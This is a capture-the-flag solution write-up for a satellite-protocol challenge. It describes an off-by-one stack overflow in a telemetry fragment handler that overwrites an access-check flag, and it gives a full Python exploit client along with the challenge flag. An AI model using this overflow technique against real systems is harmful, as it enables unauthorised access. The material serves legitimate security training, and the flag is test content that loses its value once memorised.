 # Solution Write Up for 'SpaceY'
# Expected Behavior
The challenger is given a space protocol specification for communicating with a Nanosatellite. In addition they are given the binary which executes the protocol on the Nanosatellite and a python client script which implements the protocol.They must get access to the control service functionality by finding a vulnerability in the protocol.  

## Vulnerability Description
1. Stack buffer fixed size of MAX_FILE_SIZE 3072 (12 x 256 bytes)
2. Telemetry service packet handler reassembles fragments into file of MAX_FILE_SIZE but is off by one counting from 0 and 12 inclusive so allows 13 packets instead of twelve thus overflowing fixed stack buffer
3. The telemetry service only allows fragments 0->11, but does not track state of fragments received so can resend a fragment ID thus getting 13 packets into stack buffer which results in ability to overflow stack buffer by 256 bytes

## Supporting solution info
Steps to recreate
1. The service output strings on console give pivot points
2. Map these strings to switch statement in binary which is service handler
3. In telemetry service handler “File receive string - ...” shows that it compares for 13 packets not twelve so you can resend a fragment ID between 0-12 as part of telemetry service
4. In control service handler you can see that it strcmp for a password in access.txt and then sets flag at a pointer – this pointer is located on stack
5. The accesscheck pointer on stack is just above the telemetry buffer so by sending 13 packets and overwriting the accesscheck value on stack with 1 it bypasses the accesscheck logic
6. Then instead of sending a disconnect service packet per the spec, send a control packet and you get access to the flag

# Solution
Client Python Solution
```python
#!/usr/bin/env python2

import socket
import sys
import os
import struct
from ctypes import *
import threading
import select
import time

''''Procotol Services'''
bus_service = "\x01"
payload_service = "\x02"
telemetry_service = "\x03"
control_service = "\x04"
disconnect_service = "\x05"

'''Protocol fields'''
length = "\x12"
fragment_id = "\x00"
data = "\x00"*256
maldata = "\x01"*256

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

def connect(sock):
    server_address = ("192.168.7.17", 3210)
    sock.connect(server_address)

def transceive_packet(sock, service, length, fragment_id, data):
    count = 0
    if service==telemetry_service:
        while count < 12:
            fragment_id = struct.pack('>B',count)
            packet = service + length + fragment_id + data
            sock.send(packet)
            count = count+1
            time.sleep(0.2)#must keep this delay between packets for tranmission sync with satellite
    else:
        packet = service + length + fragment_id + data
        sock.send(packet)
        while count <=4:
            data = sock.recv(74)
            print data
            count = count+1
            time.sleep(0.2)#must keep this delay between packets for tranmission sync with satellite

connect(sock)
transceive_packet(sock, telemetry_service, length, fragment_id, data)
transceive_packet(sock, telemetry_service, length, fragment_id, maldata)
transceive_packet(sock, control_service, length, fragment_id, data)
```




# Flag
ATR[GroundControlNowCanAccessMajorTom]
